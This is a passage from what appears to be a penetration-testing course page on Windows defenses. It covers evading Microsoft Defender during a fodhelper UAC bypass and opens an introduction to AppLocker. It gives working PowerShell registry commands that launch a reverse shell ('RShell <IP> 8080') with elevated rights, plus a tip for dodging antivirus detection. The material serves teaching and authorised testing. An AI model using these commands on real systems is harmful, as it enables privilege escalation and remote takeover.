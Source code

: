 ![image](Bq0ZQoH6maNq.png)

As it turns out, however, it is very easy to bypass this detection. As explained in this [blog post](https://s3cur3th1ssh1t.github.io/Signature_vs_Behaviour/), `Microsoft Defender Antivirus` is only triggered when it senses `".exe"` in the value being set, so if you simply remove the `".exe"` you will not get blocked.

In `Windows`, you do not need to specify `".exe"` for `Windows` to locate a binary. So for example, if you tried running `C:\Windows\System32\cmd` you will notice that `cmd.exe` is still launched.

![image](Ei74DYwAZsL0.png)

Making this slight adaptation, we can see that the bypass works without getting blocked by `Microsoft Defender Antivirus` (in this case launching `RShell.exe`):

```powershell
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "C:\Windows\Tasks\RShell <IP> 8080" -Force

C:\Windows\System32\fodhelper.exe

```

![image](dwRXEJ2rvd1e.png)

To cleanup after the bypass, we should run the following command:

```powershell
Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force

```

## Extra Reference: WinPwnage

A project which may serve as a useful reference which researching other `UAC bypass` techniques is [WinPwnage](https://github.com/rootm0s/WinPwnage), which contains `Python` implementations of `15` different vectors.


# AppLocker

## Introduction to AppLocker

[AppLocker](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/windows-defender-application-control/applocker/applocker-overview) is a `Windows` (defense-in-depth) security feature which allows administrators to `restrict which apps and files a user can run`. Rules may be applied to the following file types:

- `Executable files`: .exe, .com
- `Windows Installer files`: .msi, .msp
- `Scripts`: .js, .ps1, .vbs, .cmd, .bat
- `Packaged apps`: .aappx
- `Dynamic-Link Libraries`: .dll
